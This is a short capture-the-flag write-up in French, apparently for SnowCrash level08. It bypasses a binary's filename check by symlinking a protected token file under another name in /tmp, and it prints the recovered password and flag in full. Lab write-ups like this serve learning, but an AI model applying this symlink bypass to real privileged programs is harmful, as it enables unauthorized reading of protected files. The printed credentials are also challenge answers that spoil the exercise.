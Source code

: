 Il a 2 fichiers, un binaire et un fichier texte qu'on ne peut lire faute d'avoir les droits pour.

```bash
./level08 token
You may not access 'token'
```

On décompile le binaire et on s'aperçoit qu'il y a une règle empéchant de lire le fichier token : 
![Ghidra level08](image.png)


On crée un lien symbolique vers le fichier token et on appelle ce fichier en paramètre du binaire.
```bash
ln -s /home/user/level08/token /tmp/flag08
./level08 /tmp/flag08
quif5eloekouj29ke0vouxean
```
On se connecte au user flag08 et on éxécute la commande getflag :
```bash
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
